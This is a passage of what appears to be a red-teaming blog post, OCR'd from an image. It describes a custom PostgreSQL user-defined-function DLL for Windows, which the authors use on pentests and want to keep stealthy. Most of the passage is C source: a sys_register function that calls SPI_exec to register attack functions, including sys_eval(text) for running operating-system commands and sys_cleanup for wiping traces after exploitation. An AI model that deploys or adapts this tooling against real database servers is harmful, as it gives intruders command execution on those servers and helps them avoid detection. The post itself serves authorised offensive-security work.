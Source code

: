 ```c
		}
	}
	free(verData);
	return;
}
...
```
*Source: [main.c][7]*
### Final cherries
On every pentesting or red teaming engagement we always try to be as stealty as possible, and there was something that was blocking us from achieving this goal. Whenever we loaded the UDF module we needed to restart the PostreSQL service to unload the module from memory and be able to delete the file from disk. Another thing that we where doing a lot and we were tired of doing was registering and unregistering the functions on the PostgreSQL, why don't write a function that register them all? And, as we are lazy, also another function that unregister them all. So we were just two functions away from our desired state of fullfiness.
#### Wake up Poly: sys_register()
Our desire was to execute the minimal amount of lines to get all ready for explotation, we now have two functions, but we could implement a lot more, and it will require us to write new SQL queries to register those functions, so the question that arise was: *"why don't do it programatically?"*, and the quest began. After several google searchs and being about to throw the towel we found the desired feature and correct terms: **SPI** (Server Programming Interface), with it the function [*SPI_connect*][8] and [*SPI_exec*][9], with the help of those functions it was just a matter of getting dynamically the DLL path and formating the correct SQL queries to get everything register with just one powerfull function. ***First cherry on top of our Ice Cream!***
```c
...
/*
UDF that use SPI to register all the UDFs in this DLL. This simplify explotation and post explotation cleanup.
Note: In case one or all functions are already registered it will replace them without throwing an error.
See: sys_cleanup(bool)
*/
PGDLLEXPORT Datum sys_register(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(sys_register);
Datum sys_register(PG_FUNCTION_ARGS) {
	char ModulePath[MAX_PATH] = { 0 };
	int result;
	result = 0;
	char *regcmd = NULL;
	int msize = GetModuleFileNameA(hLibModule, ModulePath, MAX_PATH);

	if (msize == 0) {
		PG_RETURN_INT32(result);
	}

	if (SPI_connect() == SPI_OK_CONNECT) {
		int ret;
		elog(NOTICE, "[sys_register] DLL Path '%s'", ModulePath);
		regcmd = (char *)malloc(1024);

		sprintf(regcmd, "CREATE OR REPLACE FUNCTION sys_cleanup(bool) RETURNS int4 AS '%s','sys_cleanup' LANGUAGE c VOLATILE STRICT COST 1", ModulePath);
		elog(NOTICE, "[sys_register] Command:\n%s", regcmd);
		ret = SPI_exec(regcmd, 0);

		sprintf(regcmd, "CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '%s', 'sys_eval' LANGUAGE c VOLATILE STRICT COST 1", ModulePath);
		elog(NOTICE, "[sys_register] Command:\n%s", regcmd);
		ret = SPI_exec(regcmd, 0);

```